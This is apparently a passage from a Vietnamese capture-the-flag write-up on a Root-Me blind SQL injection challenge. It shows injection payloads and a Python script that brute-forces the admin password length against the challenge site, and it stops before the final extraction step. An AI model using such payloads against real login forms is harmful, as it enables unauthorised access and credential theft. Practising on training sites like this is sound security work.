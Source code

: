 Cột 1:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161274133-2f899541-4980-4326-a82f-77374b91f9e8.png"></p>

Cột 2:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161275259-c70a02aa-3808-4bf4-a918-e90f3c29d0da.png"></p>

Cột 3:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161275509-fd40fb5e-00dc-413b-ae6a-3c6b6c51d040.png"></p>

Vậy 3 cột lần lượt là: **username, password và year** (Đoán gần đúng 😋)
### TÌM ĐỘ DÀI CỦA PASSWORD
Tương tự brute-force độ dài `password` với `username` là `admin` trong bảng `users`. Payload mẫu: 

```
1' or length((select password from users where username='admin')) = 1 -- 
```

Brute-force:

```python
import requests

query = "1' or length((select password from users where username='admin')) = "  
result = ""

for i in range(1, 30):
    username = query + str(i) + " -- "
    payload = {
        'username' : username,
        'password' : 123
    }
    request = requests.post('http://challenge01.root-me.org/web-serveur/ch10/', payload)
    if ('Welcome back' in request.text):
        result += str(i)
        print("Length of password is " + result)
        break      
    else:
        print("Length = " + str(i) + ". Wrong !")
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161274404-7fe740be-0661-4031-bae4-5d57754948d2.png"></p>


### TÌM CHÍNH XÁC PASSWORD

Lại tương tự, tiếp tục brute-force. Payload mẫu:

```
1' or length((select password from users where username='admin')) = 1 -- 
```

Ok, làm phát cuối thôi nào:
